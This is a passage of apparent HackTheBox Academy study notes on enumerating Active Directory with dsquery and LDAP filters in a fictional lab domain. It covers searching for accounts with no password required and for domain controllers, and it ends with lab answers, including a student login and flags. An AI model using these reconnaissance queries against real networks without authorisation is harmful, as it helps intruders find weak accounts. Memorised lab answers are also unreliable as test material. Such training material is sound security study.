"CN=NYC-0621,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0622,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0623,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0455,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0456,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0457,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0458,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
```

### Wildcard Search

```pwsh
PS C:\htb> dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"

"CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Computers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Schema Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Cert Publishers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Guests,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Group Policy Creator Owners,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=RAS and IAS Servers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Allowed RODC Password Replication Group,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Denied RODC Password Replication Group,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Read-only Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Enterprise Read-only Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Cloneable Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Key Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Enterprise Key Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=DnsAdmins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=DnsUpdateProxy,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=certsvc,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Ramsey,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=svc_vmwaresso,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"

<SNIP>
```

### Users With Specific Attributes Set (PASSWD_NOTREQD)

```pwsh
PS C:\htb> dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl

  distinguishedName                                                                              userAccountControl
  CN=Guest,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                                    66082
  CN=Marion Lowe,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL      66080
  CN=Yolanda Groce,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL    66080
  CN=Eileen Hamilton,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL    66080
  CN=Jessica Ramsey,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                           546
  CN=NAGIOSAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                           544
  CN=LOGISTICS$,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                               2080
  CN=FREIGHTLOGISTIC$,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                         2080
```

### Searching for Domain Controllers
The below search filter looks for all Domain Controllers in the current domain, limiting to five results.

```pwsh
PS C:\Users\forend.INLANEFREIGHT> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName

 sAMAccountName
 ACADEMY-EA-DC01$
```

## LDAP Filtering Explained
```
userAccountControl:1.2.840.113556.1.4.803:=8192
```

These strings are common LDAP queries that can be used with several different tools too, including AD PowerShell, ldapsearch, and many others. 

```
userAccountControl:1.2.840.113556.1.4.803:
```

Specifies that we are looking at the [User Account Control (UAC) attributes](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) for an object. This portion can change to include three different values we will explain below when searching for information in AD (also known as [Object Identifiers (OIDs)](https://ldap.com/ldap-oid-reference-guide/)).

```
=8192 
```

Represents the decimal bitmask we want to match in this search. This decimal number corresponds to a corresponding UAC Attribute flag that determines if an attribute like `password is not required` or `account is locked` is set. 

### UAC Values



### OID match strings
OIDs are rules used to match bit values with attributes, as seen above. For LDAP and AD, there are three main matching rules:

1. `1.2.840.113556.1.4.803`

    When using this rule as we did in the example above, we are saying the bit value must match completely to meet the search requirements. Great for matching a singular attribute.    

2. `1.2.840.113556.1.4.804`
   
   When using this rule, we are saying that we want our results to show any attribute match if any bit in the chain matches. This works in the case of an object having multiple attributes set.

3. `1.2.840.113556.1.4.1941`
   
   This rule is used to match filters that apply to the Distinguished Name of an object and will search through all ownership and membership entries.

### Logical Operators
When building out search strings, we can utilize logical operators to combine values for the search. The operators `&` `|` and `!` are used for this purpose.

```
(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=64))
```

The above example sets the first criteria that the object must be a user and combines it with searching for a UAC bit value of 64 (Password Can't Change).

```
(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=64))
```

This would search for any user object that does NOT have the Password Can't Change attribute set.

## Questions
RDP to **10.129.42.17** (ACADEMY-EA-MS01), with user `htb-student` and password `Academy_student_AD!`
1. Enumerate the host's security configuration information and provide its AMProductVersion. **Answer: 4.18.2109.6**
   - Check Defender status and configuration:
        ```pwsh
        PS C:\Users\htb-student> Get-MpComputerStatus


        AMEngineVersion                 : 0.0.0.0
        AMProductVersion                : 4.18.2109.6
        ```
2. What domain user is explicitly listed as a member of the local Administrators group on the target host? **Answer: adunn**
   - Check information of admin group and look for its members:
        ```pwsh
        PS C:\Users\htb-student> net localgroup administrators
        Alias name     administrators
        Comment        Administrators have complete and unrestricted access to the computer/domain

        Members

        -------------------------------------------------------------------------------
        Administrator
        INLANEFREIGHT\adunn
        INLANEFREIGHT\Domain Admins
        INLANEFREIGHT\Domain Users
        The command completed successfully.
        ```
3. Utilizing techniques learned in this section, find the flag hidden in the description field of a disabled account with administrative privileges. Submit the flag as the answer. **Answer: HTB{LD@P_I$_W1ld}**
   - Use dsquery with LDAP search filter to look for disabled account with administrative privileges:
        ```pwsh
        PS C:\Users\htb-student> dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2))" -attr * | Select-String "HTB"

        description: HTB{LD@P_I$_W1ld}
        ```